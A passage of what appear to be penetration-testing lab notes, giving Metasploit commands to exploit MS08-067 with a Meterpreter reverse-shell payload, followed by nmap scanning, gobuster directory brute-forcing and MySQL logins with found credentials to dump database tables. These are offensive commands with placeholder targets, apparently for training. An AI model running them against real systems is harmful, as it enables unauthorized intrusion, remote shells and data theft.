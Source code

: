[OPTIONAL] Exploit the machine

```
msfconsole
```

```
search MS08-067
use 0
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOSTS <ip>
set LHOST <ip>
run
```

---

## Web Attacks

### Dirbuster 

Find all the machines in the network

```
sudo nmap -sn <ip>
```

Identify the machines role

```
sudo nmap -sC -SV <ip>
```

Explore the web application

```
gobuster dir -u http://<ip>:<port> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

Find hidden files

/include/conf.old

Test the credentials found

```
mysql -h <ip> -u <username> -p 
```

Retrieve the correct admin password

/signup.php

```
mysql -h <ip> -u <username> -p 
```

```
show databases;
use <database>;
show tables;
SELECT * FROM <table>;
```
